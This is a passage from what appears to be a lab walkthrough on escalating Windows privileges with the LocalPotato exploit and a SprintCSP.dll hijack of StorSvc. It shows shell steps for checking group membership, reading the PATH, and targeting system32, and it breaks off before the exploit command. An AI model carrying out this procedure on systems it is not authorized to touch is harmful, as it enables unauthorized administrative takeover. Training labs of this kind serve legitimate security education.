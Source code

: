 
Compile both exploit files and continue.

Question Done

### Elevating our Privileges

We are now ready to launch the exploit. Make sure you have the `LocalPotato.exe` exploit, the `RpcClient.exe` and the `SprintCSP.dll` files on your desktop before proceeding. If you don't, go back to the previous task to build them.

Let's start by verifying that our current user is not a part of the `Administrators` group:  

Command Prompt

```shell-session
C:\> net user user
User name                    user
Full Name

... some output omitted ...

Local Group Memberships      *Remote Desktop Users *Users
Global Group memberships     *None
The command completed successfully.
```

To successfully exploit **StorSvc**, we need to copy `SprintCSP.dll` to any directory in the current PATH. We can verify the PATH by running the following command:

Command Prompt

```shell-session
C:\> reg query "HKLM\SYSTEM\CurrentControlSet\Control\Session Manager\Environment" -v Path
    Path    REG_EXPAND_SZ    %SystemRoot%\system32;%SystemRoot%;%SystemRoot%\System32\Wbem;
                             %SYSTEMROOT%\System32\WindowsPowerShell\v1.0\;%SYSTEMROOT%\System32\OpenSSH\;
                             C:\Program Files\Amazon\cfn-bootstrap\
```

We will be targeting the `%SystemRoot%\system32` directory, which expands to `C:\windows\system32`. You should be able to use any of the directories, however.

Just to be sure, we can try to copy the DLL directly into `system32`, but our user won't have enough privileges to do it:

Command Prompt

```shell-session
C:\Users\user\Desktop> copy SprintCSP.dll C:\Windows\System32\SprintCSP.dll
Access is denied.
        0 file(s) copied.
```

By using LocalPotato, we can copy SprintCSP.dll into system32 even if we are using an unprivileged user: 

Command Prompt
